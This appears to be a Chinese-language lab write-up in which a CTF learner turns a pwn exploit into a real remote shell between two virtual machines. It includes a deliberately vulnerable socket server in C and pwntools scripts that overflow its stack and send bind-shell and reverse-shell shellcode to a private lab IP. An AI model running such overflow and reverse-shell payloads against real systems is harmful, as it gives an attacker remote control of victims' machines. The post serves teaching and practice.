







## 疑惑

从第一次接触pwn的到现在将近四个月了，每次做出来pwn题之后，把写好的脚本打到服务器上，就可以在服务器那边开启一个shell，然后用cat就可以读出我们需要的flag了。可是事实上我们真的可以用pwn的解题手法去进行一次攻击么？我们最后在对方主机去执行system('/bin/sh')真的可以拿到shell么？

## 实验环境

接下来的实验环境：

攻击者的机器是Ubuntu   ip:192.168.43.150

目标机是kali     	 ip:192.168.43.71

## 对疑惑做一个简单的回答

### 先回答第一个问题（我们真的可以用pwn的解题手法去进行一次攻击么？）。

可以的，因为接下来，我就演示一下利用与解pwn相同的思路完成一次最最最简单入侵（甚至简单到还需要目标机的配合），就是在目标机上运行一个有漏洞的程序，然后攻击者发送给目标机一个脚本，然后在攻击者的主机上开启一个shell，用来控制目标机

### 再回答第二个问题（我们最后在对方主机去执行system('/bin/sh')真的可以拿到shell么？）。

不可以的，如果仅仅是平常我们做题的脚本，发到了运行着漏洞程序的目标机上，执行了system('/bin/sh')，仅仅是在目标机上开了一个shell，这个shell与攻击者的主机是没有任何关系的（如下图）


可以看到kali上确实开启了一个新的shell，但是这个shell跟攻击者是没关系的，可以看下ubuntu这边的情况（发现是没有任何回显的）。


## 进攻的思路以及准备

### 首先第一点，就是怎么找到目标机？

对方也仅仅是个主机，它并不会像服务器那样暴露在公网上，而攻击者的主机和目标机就如同黑暗森林中带枪的猎人，无法直接被找到，而想要找到它，就需要不断的去接近它，最终猎人们彼此处于了同一片森林（也就是攻击者与目标机处于了同一个网段）。此时猎人试着用nmap工具扫描了一下，然后就发现了另一个猎人的ip（这个192.168.43.1是网关（gateway)）。


猎人抱着试试看的心态，去扫描了一下这个ip。


发现了开放8888这个端口，而这个端口运行了一个无NX无canary且有溢出的程序（至于猎人怎么知道运行的是这个漏洞程序，这里不做讨论，毕竟这篇文章的目的是演示下最简单的进攻流程，而实际的环境中要比这个流程复杂很多）。

漏洞程序的源码如下（这里我用的是这位师傅的源码https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/13/getshell3/）：

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main (int argc, char **argv)
{
  int  s,c,j  =  0xe4ff;//留下的这个0xe4ff对应的小端序机器码就是jmp rsp,这样溢出到返回地址直接填写这个地址，就可以执行下面的shellcode了（就不需要再泄露地址了）
  char buf[10];
  
  struct sockaddr_in server; 
  server.sin_family      = AF_INET;//使用IPv4地址
  server.sin_addr.s_addr = INADDR_ANY;//INADDR_ANY为本机的IP
  server.sin_port        = htons(8888);//开放的端口

  s = socket(AF_INET,SOCK_STREAM,0);//第一个参数表示使用IPv4地址，第二个参数是表示套接字类型为面向连接的套接字，第三个参数为使用TCP传输协议
      bind  (s,(struct sockaddr *)&server,sizeof(server));
      listen(s,10);
  c = accept(s,NULL,NULL);
      read  (c,buf,1000);

  return 0;
}
```


采用gcc test.c -fno-stack-protector -z execstack -no-pie -o test  #这里关闭了canary和NX保护




用IDA看一下，得到了溢出的偏移（0x16+8)。

由于没有开启NX，我们使用shellcode。如果只是正常开启shell的shellcode的话，那就是本文最开始第二个问题所出现的情况（就是确实是开启了一个shell，但是开在了目标机上，跟攻击者没有任何关系）

因此这里我们就要换一种shellcode。在这之前还要学习一下正连与反连。

## 正连（正向shell）

我大概说一下正连的原理。我们现在有一个**shellcode**，他的功能是**在目标机上开启一个shell**（现在看来功能和寻常获取shell的shellcode没什么区别），不过紧接着**这个shellcode还会将刚刚开启的这个shell 的输入、输出绑定到我们指定的端口上（这个端口是在目标机上的）**。然后**我们继续利用pwntools去连接这个新开的端口，这样我们就获得了一个可以与目标机产生交互的shell（因为我们远程连接了目标机一个端口上的shell嘛）**。

```python
from pwn import *
context(arch='amd64',os='linux')

io = remote("192.168.43.71",8888)
sc = asm(shellcraft.bindsh(4444))#这个意思就是开启一个shell，把这个shell绑定到4444端口
io.send('a'*30+p64(0x400669)+sc)#这个偏移是30，但是好像不同的机器编译源码之后，这个偏移可能不一样。然后这个0x400669是jmp rsp的位置，这个不同电脑的这个指令位置也是不同的，还是要自己用ROPgadget搜一下吧。

sh = remote("192.168.43.71",4444)#然后再次连接到刚刚开启的shell上
sh.interactive()#这个交互是与sh交互，而不是与io交互
```

因为kali是以root权限运行的漏洞程序，因此用脚本开启的shell就直接是root权限，还可以创建和删除文件。




可以看到如果是以root权限开启shell的话，威力还是非常大的。也就是说被攻击者用什么权限运行的漏洞程序，攻击者远程获取的shell就是什么权限。

## 反连（反向shell）

关于反弹shell可以阅读下面两篇文章

https://xz.aliyun.com/t/2548

https://xz.aliyun.com/t/2549

利用这个反连的话，我们**需要先监听本机的一个端口**（你可以把这个监听理解成打开），然后也是利用一段shellcode，**这个shellcode会实现反弹shell**，**将shell反弹到我在本机开的端口上去。然后用pwntools中的wait_for_connection函数等待着反连**。等到反连成功后，即可在攻击者的窗口开启一个与目标机交互的shell。

```python
from pwn import *
context(arch='amd64',os='linux')

sh = listen(4444)#在本机监听4444端口
io = remote("192.168.43.71",8888)#远程连接到目标机
shellcode = asm(shellcraft.connect('192.168.43.150',4444)+shellcraft.dupsh())#让目标机连接到我们本机开放的端口
io.send('a'*30+p64(0x400669)+shellcode)

sh.wait_for_connection()
sh.interactive()

```

这次kali使用了普通用户来运行漏洞程序，可以看见这次攻击者就没有办法去创建或是删除文件了。





总结一下正向shell和反向shell。**在实际的攻击当中，正向shell是攻击者连接被攻击者的机器，可以用于攻击者身处内网，被攻击者身处外网的情况；而反向shell则是被攻击者主动连接攻击者，可以用于攻击者处于外网，被攻击者处于内网的情况**。 


其实本次攻击到此也就结束了，我们分别用正连和反连的方法获取了目标机的shell。但往往很多东西看着简单，但做的难。实际操作的时候就会遇见各种各样稀奇古怪的问题，也会绕许多弯路。

## 在完成实验时所碰到的问题

### 1、同步网段问题

首先是将两个虚拟机部署在同一个网段的问题，正常情况下，只需要让虚拟机开桥接模式即可。




**这是正常情况下，开启桥接模式之后，虚拟机就会和主机在同一个网段下面**，只要让两台主机去连一个相同的热点，这样ubuntu和kali就可以处于在一个网段上了。但天有不测风云，我的电脑开启桥接之后，虚拟机和主机并不在一个网段上。

我采用的解决方法是让VMnet0桥接到物理网卡上。




然后在网络适配器这里改成自定义，去连接VMnet0。**（因为我当时不知道咋搞的，把虚拟网卡弄没了一个，用这个方法的话，可以让自己的两个虚拟机都桥接到一个物理网卡上面）**



最后两个虚拟机都处于了同一网段。


### 2、socat工具绑定端口出现的问题

最开始的时候，我写了一个只有漏洞的程序（没有开启端口这部分），然后我是用socat工具去绑定的。绑定的也很成功。然后就去写脚本打，可是不管怎么打脚本，最后得到的都是EOF




请教了roderick师傅之后，得出来的结论是**socat不知道因为什么原因，等到shellcode执行之后，关闭了socket。因此这里的端口与进程绑定不能用socat工具来绑定了**，就采用了https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/13/getshell3/这个师傅博客上的涉及思路，在漏洞程序源码上，加一段将自身绑定给端口的代码。这样运行漏洞程序之后自己就与指定的端口绑定了。


感悟：一次非常非常简单的攻击**（简单到有的地方甚至还需要被攻击者的配合，真正的情况中，攻击者怎么才能知道被攻击者开放的端口里正好运行了漏洞程序，而攻击者又恰好有一个脚本？这些在本文章都没有探究或者说目前以我的水平也没法去想这些。但是不影响在我们建立假设的前提下去进行一些实验和思考）**，在实验的过程中碰到了很多小问题，有的是卡了一会，有的则是卡了一天，如同上面第二个那个问题，描述它很简单，只用了两句话，但是发现这个问题所在却是用了一天多的时间。看别人操作总是感觉很简单，包括自己的所认为的思路也想的很简单，有时候我们认为不可能出现问题的地方，却恰恰是卡了我们很久的地方。**因此在平常的做题以及学习的过程中，还是要多去思考，多去问，多去实践，才能更快的进步。**

最后本文还要感谢 [roderick师傅](https://roderickchan.github.io) 以及我的两位同学（[提莫酱](https://www.timochan.cn) 和 [joker](https://www.cnblogs.com/LQ-Joker)），如果没有他们的帮助，也许我还会绕很多弯路。

参考文章：

https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/13/getshell3/

https://xz.aliyun.com/t/2548

https://xz.aliyun.com/t/2549